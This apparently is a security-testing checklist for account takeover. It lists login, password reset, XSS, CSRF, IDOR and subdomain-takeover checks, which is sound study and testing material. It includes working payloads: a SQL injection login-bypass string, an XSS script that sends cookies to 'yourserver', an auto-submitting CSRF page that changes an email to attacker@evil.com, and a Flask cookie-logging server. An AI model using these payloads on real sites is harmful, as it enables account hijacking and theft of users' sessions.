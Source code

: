 ## Account Takeover Checklist

- login:
    - [ ] check if you are able to brute force the password

    - [ ] Test for OAuth misconfigurations

    - [ ] check if you are able to bruteforce the login OTP

    - [ ] check for JWT mesconfigurations

    - [ ] Test for SQL injection to bypass authentication

        ```admin" or 1=1;--```
    - [ ] check if the application validates the OTP or Token

- password reset:
    - [ ] check if you are able to brute force the password reset OTP

    - [ ] test for token predectability

    - [ ] test for JWT misconfigurations

    - [ ] check if the password reset endpoint is vulnerable to IDOR

    - [ ] check if the password reset endpoint is vulnerable to Host Header injection

    - [ ] check if the password reset endpoint is leaking the token or OTP in the HTTP response

    - [ ] check if the application validates the OTP or Token

- XSS to Account Takeover
    - [ ] if the application does not use auth token or you can't access the cookies because the "HttpOnly" flag, you can obtain the CSRF token and craft a request to change the user's email or password       

    - [ ] try to exfiltrate the cookies

    - [ ] try to exfiltrate the Auth Token

    - [ ] if the cookie's "domain" attribute is set, search for xss in the subdomains and use it to exfiltrate the cookies

    - PoC Example:
        ```html
        <script>
            /*
            this script will create a hidden <img> element
            when the browser tries to load the image
            the victim's cookies will be sent to your server
            */

            var new_img = document.createElement('img');
            new_img.src = "http://yourserver/" + document.cookie;
            new_img.style = 'display: none;'
            document.body.appendChild(new_img);
        </script>

        ```

- CSRF to Account Takeover

    - [ ] check if the email update endpoint is vulnerable to CSRF

    - [ ] check if the password change endpoint is vulnerable to CSRF

    - PoC Example:
        ```html
            <html>
                <head>
                    <title>CSRF PoC</title>    
                <head>
                <body>
                    <form name='attack' action='https://example.com/update-email' method='POST'>
                        <input type="hidden" name="new_email" value="attacker@evil.com">
                        <input type="submit" name="submit" value="submit" hidden>
                    <form>
                    <script>
                        document.attack.submit.click()
                    </script>
                </body>
            </html>
        ```

- IDOR to Account Takerover

    - [ ] checck if the email update endpoint is vulnerable to IDOR

    - [ ] check if the password change endpoint is vulnerable to IDOR

    - [ ] check if the password reset endpoint vulnerable to IDOR

- subdomain takeover:
    - [ ] first-order: check if you can takeover xyz.example.com, you can host any malicious code to steal users info or cookies
    - PoC Example
        ```python
        #!/usr/bin/python3
        from flask import *

        app = Flask(__name__)

        @app.route('/')
        def cookie_sniffer():
            for c_name, c_value in request.cookies.items():
                print(c_name + ': ' + c_value)
            return 'Hello, world'
        if __name__ == '__main__':
            app.run(port=80)
        ```
    - [ ] second-order (broken link hijacking): if you found a broken link in a webpage (https://nonexistentlink.com/app.js) and you can takeover this domain you can host any malicious javascript file and use it to steal users info or cookies
    - PoC Example
        ```javascript
        user_cookies = {
            "cookies": document.cookie
        }

        var xhttp = new XMLHttpRequest();
        xhttp.open("POST", "/store-cookies", true);
        xhttp.send(JSON.stringify(user_cookies));
        ```
